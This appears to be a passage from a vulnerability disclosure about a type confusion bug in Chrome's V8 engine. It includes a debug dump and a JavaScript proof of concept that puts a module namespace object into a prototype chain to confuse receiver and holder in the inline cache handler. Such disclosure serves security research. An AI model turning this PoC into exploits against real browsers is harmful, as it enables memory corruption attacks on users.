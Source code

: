 ```javascript
   z: 0x2a9a08293865 <AccessorInfo> (accessor, dict_index: 4, attrs: [WE_])
   y: 0x2a9a08293845 <AccessorInfo> (accessor, dict_index: 3, attrs: [WE_])
 }
 - elements: 0x2a9a0810a8d9 <NumberDictionary[16]> {
   - requires_slow_elements
 }
0x2a9a082c7cf9: [Map]
 - type: JS_MODULE_NAMESPACE_TYPE
 ...
*/
```
`JSModuleNamespace` means `module` object in above snippet.
Then, this `module` object should be `holder` in [ComputeHandler](https://source.chromium.org/chromium/chromium/src/+/main:v8/src/ic/ic.cc;l=992?q=ComputeHandler&ss=chromium).
I can make this by setting this `module` object to other object's prototype chain.
Following one is **poc** for this vulnerability.

```javascript
import * as module from "1.mjs";

function poc() {
    class C {
        m() {
            return super.y;
        }
    }

    let zz = {aa: 1, bb: 2};
    // receiver vs holder type confusion
    function trigger() {
        // set lookup_start_object
        C.prototype.__proto__ = zz;
        // set holder
        C.prototype.__proto__.__proto__ = module;

        // "c" is receiver in ComputeHandler [ic.cc]
        // "module" is holder
        // "zz" is lookup_start_object
        let c = new C();

        c.x0 = 0x42424242 / 2;
        c.x1 = 0x42424242 / 2;
        c.x2 = 0x42424242 / 2;
        c.x3 = 0x42424242 / 2;
        c.x4 = 0x42424242 / 2;

        // LoadWithReceiverIC_Miss
        // => UpdateCaches (Monomorphic)
        // CheckObjectType with "receiver"
        let res = c.m();
    }
    
    for (let i = 0; i < 0x100; i++) {
        trigger();
    }
}

poc();
```
